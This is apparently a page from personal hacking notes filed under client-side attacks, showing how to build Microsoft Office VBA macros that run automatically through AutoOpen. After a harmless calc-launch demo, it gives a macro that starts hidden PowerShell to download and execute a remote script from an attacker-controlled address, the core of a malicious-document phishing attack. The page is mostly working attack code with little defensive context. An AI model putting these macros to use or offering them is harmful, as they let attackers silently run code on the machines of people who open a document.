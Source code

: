 ```yaml
---
title: Microsoft Office Macros
category: Client Side Attacks
order: 2
---
```


# Visual Basic for Applications (VBA) Macro

VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance or augment functionality in Word and Excel for data processing etc. 

VBA is not all that different from VBScript, so it's not too difficult to use the `wscript.shell object`.


> **Note**: The file must be saved in `.doc` format due inside `.docx` files cannot save macros.

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

![Macro](/hackingnotes/images/macro-calc.png)

> **Note**: To force the macro to trigger automatically when the document is opened, use the name`AutoOpen()`.

## Executing a Powershell Payload

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""

End Sub
```

>
